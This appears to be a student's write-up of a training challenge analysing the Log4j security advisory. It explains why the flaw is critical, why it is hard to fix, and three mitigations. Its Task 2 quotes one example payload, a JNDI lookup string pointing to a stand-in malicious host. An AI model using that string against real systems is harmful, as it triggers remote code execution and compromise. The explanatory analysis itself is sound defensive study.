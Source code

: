 # 2022 Challenge #4 Analyze a Security Advisory
## Task1
- Create a list of every step of the attack
- Use https://www.eraser.io/diagramgpt to create the diagram
- Paste the step list in the input field, choose diagram type, and generate
- ![image](https://github.com/user-attachments/assets/d26be566-5605-490f-aaec-f4f0378fd994)

## Task 2
- After reading the advisory, wrote a description of the problems and criticalities
- Used ChatGPT to work faster

- The Log4j vulnerability is rated critical for several reasons:
1. Log4j is widely used across many enterprise and cloud applications, services, and
products.
2. The Log4j vulnerability allows attackers to execute arbitrary code on affected
systems remotely. (RCE)
3. Exploiting the Log4j vulnerability requires very little effort or sophistication. An
attacker only needs to inject a single malicious string (e.g., ${jndi:ldap://maliciousurl}) into any input that is logged by the vulnerable Log4j version.
4. The attack can be executed without authentication or prior access.
5. Detecting whether the vulnerability has been exploited is challenging because
attackers can execute code silently without leaving clear traces.
6. Exploitation can serve as a foothold for attackers to perform further malicious actions
"

## Task 3
- Describe why the attack is relevant. Used ChatGPT for faster writing.

- The Log4j vulnerability is highly relevant for any company due to its widespread use in
modern software, the critical business risks associated with exploitation and the legal and
regulatory implications of failing to mitigate the issue

## Task 4
- Write what makes the problem a challenge to solve. Used ChatGPT for faster writing.

1. Log4j is deeply integrated into many applications and libraries, often hidden in
dependencies. Identifying all instances across an organization’s software stack is
challenging.
2. Applying patches uniformly across diverse IT environments is difficult, especially in
legacy systems or those requiring strict update policies.
3. Even if an organization patches its systems, it remains vulnerable if third-party
vendors or services fail to update.

## Task 5
- Describe 3 measures to take to solve the problem. Used ChatGPT for faster writing

1. Conduct a Comprehensive Inventory and Scan to identify everything that use Log4J
2. Immediately apply security patches or mitigations provided by vendors. (Updates and
workarounds)
3. Continuously monitor logs for suspicious activity related to Log4j and update security
policies to ensure faster patching in the future.

      
